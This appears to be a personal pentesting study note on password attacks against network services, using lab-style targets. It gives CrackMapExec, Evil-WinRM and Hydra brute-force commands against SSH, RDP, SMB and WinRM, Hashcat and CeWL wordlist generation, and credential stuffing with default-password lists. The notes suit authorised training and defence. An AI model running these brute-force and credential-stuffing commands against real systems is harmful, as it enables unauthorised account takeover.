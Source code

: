 ## # Network Services
In the Footprinting module there is more info about the [R-services](obsidian://open?vault=Obsidian%20Vault&file=Footprinting%2FRemote%20Management%20Protocols)
#### CrackMapExec
```bash
# protocol specifi Help
crackmapexec <protocol_name> -h

# The general format for using CrackMapExec
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
# The appearance of (Pwn3d!) is the sign that we can most likely execute system commands if we log in with the brute-forced user
```

#### Evil-WinRM
```bash
# Basic useage
evil-winrm -i <target-IP> -u <username> -p <password>
```

#### Hydra
```bash
# SSH - brute force
hydra -L user.list -P password.list ssh://10.129.42.197

# RDP - brure force
hydra -L user.list -P password.list rdp://10.129.42.197

# SMB - brute force
hydra -L user.list -P password.list smb://10.129.42.197
```

------- 

## Password Mutations

#### Hashcat for Generating Passwords
|**Function**|**Description**|
|---|---|
|`:`|Do nothing.|
|`l`|Lowercase all letters.|
|`u`|Uppercase all letters.|
|`c`|Capitalize the first letter and lowercase others.|
|`sXY`|Replace all instances of X with Y.|
|`$!`|Add the exclamation character at the end.|

```bash
# Generating Rule-based Wordlist
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list

# Hashcat Existing Rules
ls /usr/share/hashcat/rules/

```

#### Generating Wordlists Using CeWL
```bash
cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
```

#### Credential Stuffing
```bash
# DefaultCreds-Cheat-Sheet
https://github.com/ihebski/DefaultCreds-cheat-sheet

# Credential Stuffing - Hydra
hydra -C user_pass.list ssh://10.129.42.197

# Router defaultCreds
https://www.softwaretestinghelp.com/default-router-username-and-password-list/

```